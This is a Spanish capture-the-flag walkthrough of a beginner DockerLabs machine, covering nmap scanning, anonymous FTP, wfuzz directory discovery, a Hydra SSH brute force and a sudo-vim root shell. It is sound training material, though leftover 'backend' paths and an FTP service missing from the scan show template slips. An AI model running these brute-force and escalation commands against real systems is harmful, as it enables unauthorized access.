 # 🖥️ **Máquina: Obsession**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Laboratorio para principiantes en ciberseguridad. Se trabaja principalmente con servicios **SSH** y **FTP**.

- **🎯 Objetivo:**  
  -Enumerar y explotar acceso anónimo en FTP para obtener información sensible.
  
  -Identificar directorios ocultos en el servidor web.
  
  -Realizar un ataque de fuerza bruta contra SSH para obtener acceso al sistema.
  
  -Escalar privilegios a root mediante una mala configuración de sudo con vim.
  
![Máquina Backend](/Obsession/Imagenes/Plantilla.png)

---

## 🚀 **Despliegue de la Máquina Obsession en DockerLabs**

### 1️⃣ Descargar y descomprimir el archivo  
Primero, descargamos y extraemos el archivo `.zip`. Utilizamos `7z` para este propósito:

```bash
7z e backend.zip
```

### 2️⃣ Ejecutar el despliegue automático  
Después de descomprimir, lanzamos la máquina con el siguiente script:

```bash
bash auto_deploy.sh obsession.tar
```

📌 **Nota:** Asegúrate de tener `7z` instalado y contar con un entorno con Docker correctamente configurado.

![Máquina Iniciada](/Obsession/Imagenes/Despliegue.jpeg)

### 3️⃣ Comprobar la conexión  
Verificamos que la máquina esté activa enviando paquetes de ping:

```bash
ping -c4 172.17.0.2
```

![PING](/Obsession/Imagenes/Ping.jpeg)

---

## 🧩 **Fase de Reconocimiento**

Iniciamos un escaneo de puertos con **nmap**:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Reconocimiento](/Obsession/Imagenes/Puertos.jpeg)

📌 **Tip:** Puedes usar herramientas personalizadas como `extractPorts` para filtrar los puertos abiertos:

```bash
extractPorts allPorts.txt
```

Realizamos un escaneo más específico sobre los puertos detectados (22 y 80):

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

![Reconocimiento](/Obsession/Imagenes/Servicios.jpeg)

**Hallazgos iniciales:**
- **Puerto 22 (SSH):** Acceso remoto al sistema operativo.
- **Puerto 80 (HTTP):** Página web activa.
- **FTP:** El servicio permite acceso anónimo.

---

## 🌐 **Accediendo al servidor web**

Para acceder correctamente a la página web, debemos modificar el archivo `hosts`:

```bash
sudo nano /etc/hosts
```
Añadimos:

```plaintext
172.17.0.2    nombre-del-sitio.local
```

Esto nos permitirá visitar `http://nombre-del-sitio.local` en nuestro navegador.

![Pagina](/Backend/Images/etchost.jpeg)

Recopilamos información básica del sitio usando **WhatWeb**:

```bash
whatweb 172.17.0.2
```

---

## 📂 **Acceso al servicio FTP**

Ya que el acceso anónimo está habilitado, nos conectamos al servidor FTP:

```bash
ftp 172.17.0.2
```

![Reconocimiento](/Obsession/Imagenes/FTP.jpeg)

Dentro del servicio, encontramos dos archivos:

- `pendientes.txt`
- `chat-gonza.txt`

Los descargamos con:

```bash
get pendientes.txt /home/alejandro/Descargas/pendientes.txt
get chat-gonza.txt /home/alejandro/Descargas/chat-gonza.txt
```

![FTP_descargas](/Obsession/Imagenes/FTP_descargas.jpeg)

Leemos su contenido:

```bash
cat pendientes.txt
cat chat-gonza.txt
```

![cat](/Obsession/Imagenes/Lectura.jpeg)

**Observaciones:**  
Los archivos contienen conversaciones internas. Aunque mencionan asuntos legales, nuestro enfoque es identificar potenciales vulnerabilidades; uno de los archivos sugiere cambios pendientes en la página web, lo que podría indicar fallos en desarrollo.

---

## 🔎 **Búsqueda de Directorios Ocultos**

Al navegar inicialmente por la página no encontramos contenido útil, por lo que iniciamos un escaneo de directorios con **wfuzz**:

```bash
wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

📎 **Nota:** Si no tienes instalada la lista **Seclists**, puedes descargarla con:

```bash
git clone https://github.com/danielmiessler/SecLists.git /usr/share/seclists
```

![Pagina](/Obsession/Imagenes/wfuzz.jpeg)

**Resultados:**
- **/important:** Directorio con un manifiesto personal.
- **/backup:** Directorio que revela un posible nombre de usuario.

![evidencia](/Obsession/Imagenes/important.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_importan.jpeg)
![evidencia](/Obsession/Imagenes/backup.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_backup.jpeg)

---

## 🔐 **Ataque de Fuerza Bruta al servicio SSH**

Con el nombre de usuario descubierto, utilizamos **Hydra** para encontrar su contraseña:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 50
```

![Hydra](/Obsession/Imagenes/Hydrassh.jpeg)

Tras obtener las credenciales, iniciamos sesión:

```bash
ssh russoski@172.17.0.2
```

![Entrar](/Obsession/Imagenes/Entrar.jpeg)

---

## 🛡️ **Escalada de Privilegios**

Dentro de la máquina, verificamos los permisos **sudo**:

```bash
sudo -l
```

Descubrimos que el usuario puede ejecutar **vim** como `sudo` sin contraseña.

**¿Por qué es importante?**  
**Vim** permite ejecutar comandos de sistema desde su entorno. Esto significa que podemos invocar una shell como root directamente desde Vim.

📌 Consultando la base de datos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/), encontramos que para escalar privilegios usando Vim, el comando es:

```bash
sudo vim -c ':!/bin/bash'
```

Esto abrirá un **shell interactivo como root**.

![Entrar](/Obsession/Imagenes/Resultado.jpeg)

---

# ✅ **Resumen del proceso:**

1. Escaneamos puertos y descubrimos servicios SSH, HTTP y FTP.
2. Accedimos vía FTP y descargamos archivos que revelaron información sensible.
3. Identificamos directorios ocultos en la página web.
4. Realizamos un ataque de fuerza bruta sobre SSH y accedimos al sistema.
5. Escalamos privilegios mediante una mala configuración de **sudo** sobre **vim**.

